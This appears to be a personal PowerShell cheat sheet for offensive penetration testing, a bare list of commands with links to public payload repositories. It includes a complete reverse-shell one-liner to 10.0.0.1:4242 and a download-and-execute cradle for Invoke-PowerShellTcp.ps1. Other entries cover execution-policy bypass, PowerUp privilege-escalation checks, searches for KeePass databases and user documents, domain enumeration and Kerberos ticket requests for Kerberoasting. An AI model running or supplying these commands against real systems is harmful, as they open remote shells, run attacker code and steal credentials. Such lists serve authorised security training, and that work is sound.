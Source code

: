 ```
powershell -ExecutionPolicy Bypass -File script.ps1
```

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#powershell

```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1

```
powershell iex(New-Object Net.WebClient).DownloadString('http://ip/Invoke-PowerShellTcp.ps1');
```

```
powershell -c "(New-Object Net.WebClient).DownloadFile('http://ip/filename.ext','C:\filelocation\filename.ext')"
```

```
Start-Service GammaService
```

```
Stop-Service GammaService
```

https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-webrequest?view=powershell-7.3

**Invoke-WebRequest**

```
iwr http://kali/PowerUp.ps1 -Outfile PowerUp.ps1
```

```
powershell -ep bypass
```

```
Import-Module .\PowerUp.ps1
```

```
Get-DomainGPO
```

```
Get-UnquotedService
```

```
 Get-Acl -Path C:\ | Format-List
```

```
icacls .\Documents\BetaServ.exe
```

```
Get-LocalUser
```

```
Get-LocalGroup
```

```
Get-LocalGroupMember adminteam
```

```
Get-LocalGroupMember Administrators
```

```
systeminfo
```

```
ipconfig /all
```

```
route print
```

```
netstat -ano
```

```
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
```

```
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
```

```
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```

```
Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue
```

```
Get-ChildItem -Path C:\Users\dave\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue
```

```
Convert-SidToName S-1-5-21-1987370270-658905905-1781884369-1104
```

```
Get-NetComputer | select operatingsystem,dnshostname,serviceprincipalname
```

```
Find-LocalAdminAccess
```

```
Rename-Item
```

```
Add-Type -AssemblyName System.IdentityModel
```

```
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'HTTP/service.domain.com:port'
```

```
Enter-PSSession -ComputerName blahblahblah
```